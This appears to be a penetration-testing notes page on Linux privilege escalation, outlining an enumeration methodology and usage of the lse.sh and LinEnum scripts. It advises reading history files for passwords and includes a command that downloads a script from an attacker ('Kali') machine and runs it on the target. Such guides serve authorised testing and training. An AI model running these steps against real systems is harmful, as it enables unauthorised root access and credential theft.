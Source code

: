 # Linux Privesc

## <mark style="color:red;">Introduction</mark>

1. Use the "id" and "whoami" commands to check your user account.
2. Execute [Linux Smart Enumeration](linux-privesc.md#linux-smart-enumeration) (lse.sh) with progressively increasing levels to gather more detailed information about the system.
3. Run [LinEnum ](linux-privesc.md#linenum)and other relevant scripts to identify potential vulnerabilities and security-related issues that may lead to privilege escalation.

Take the time to carefully review the results of your enumeration. If Linux Smart Enumeration at level 0 or 1 identifies something noteworthy, make a note of it. To avoid getting sidetracked, make a checklist of the prerequisites needed for the privilege escalation method to work.&#x20;

Check for files in the user's home directory and other common locations, such as "/var/backup" or "/var/logs". If the user has a history file, read it as it may contain valuable information like commands or passwords.&#x20;

Start with simpler methods that require fewer steps, such as Sudo, Cron Jobs, and SUID files. Examine root processes, determine their versions, and search for potential exploits. Look for internal ports that can be forwarded to your attack machine.&#x20;

If you still haven't obtained root access, go back and review the full enumeration results again, and highlight anything that appears unusual, such as unfamiliar process or file names, non-standard filesystems (anything other than ext, swap, or tmpfs on Linux), or unusual usernames. At this point, you can also begin exploring the possibility of kernel exploits.

## <mark style="color:red;">Tools</mark>

### <mark style="color:blue;">Linux Smart Enumeration</mark>

Download from [here](https://github.com/diego-treitos/linux-smart-enumeration).

Linux Smart Enumeration has several levels that progressively disclose more detailed information.

```bash
wget http://<kali_ip>:<port>/lse.sh #Download it from Kali
chmod +x lse.sh
./lse.sh -i -C | grep yes
./lse.sh -s <SELECTION> -l <LEVEL_0-2>
```

<details><summary>How to use lse.sh</summary></details>

### <mark style="color:blue;">LinEnum</mark>

Download from [here](https://github.com/rebootuser/LinEnum).

LinEnum is a powerful Bash script that can extract a wealth of valuable information from a target system. The tool can also copy important files for export and search for files that contain specific keywords, such as "password".
